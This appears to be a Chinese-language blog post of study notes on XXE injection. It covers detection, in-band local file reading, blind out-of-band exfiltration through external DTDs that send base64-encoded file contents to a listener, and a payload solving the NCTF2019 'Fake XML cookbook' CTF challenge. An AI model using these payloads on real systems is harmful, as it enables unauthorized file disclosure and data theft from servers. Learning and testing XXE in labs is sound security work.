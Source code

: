 ```yaml
---
layout: post
title: XXE漏洞
categories: [web,xml,xxe]
---
```

## XXE漏洞发现

### 首先检测是否支持xml解析

### 若可以解析，检测是否支持DTD引用外部实体

```xml
<?xml version='1.0' encoding="UTF-8">
<!DOCTYPE root[
<!ENTITY % remote SYSTEM "http://xxxx/xxetest">
%remote;]>
<root/>
```

****

## 本地文件读取

### 1.有回显XXE

1.file协议

2.php为协议

3.当所读取文件包含`<`,`&`等，用CDATA，利用外部参数实体

***

### 2.无回显XXE

---

通过外部DTD的方式可以将内部参数实体内容与外部DTD声明的实体内容拼接起来  

利用payload来从目标主机读取到文件内容后，将文件内容作为url的一部分来请求  

我们本地监听的端口

```xml
<?xml version="1.0"?>
<!DOCTYPE root SYSTEM "http://localhost/evil1.dtd">
```

evil1.dtd

```xml
<!ENTITY % payload SYSTEM "file:///winixx">
<! ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://localhost:8899/%payload'>">
%int 
%trick
```

***

还有另一种

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % payload SYSTEM "http://localhost/evil2.dtd">
%payload;
%int;
%send;
]>
```

evil2.dtd

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///win.ini">
<!ENTITY %int "<!ENTITY &#37; send SYSTEM 'http://localhost/?p=%file;'>">
```

<br/>

## 例：[NCTF2019]Fake XML cookbook

```php
<?xml version="1.0" encoding="UTF-8">
<!DOCTYPE root [
  <!ENTITY admin SYSTEM 'file:///flag'>
  ]>
<user><username>&admin;</username><password>123</password></user>  
```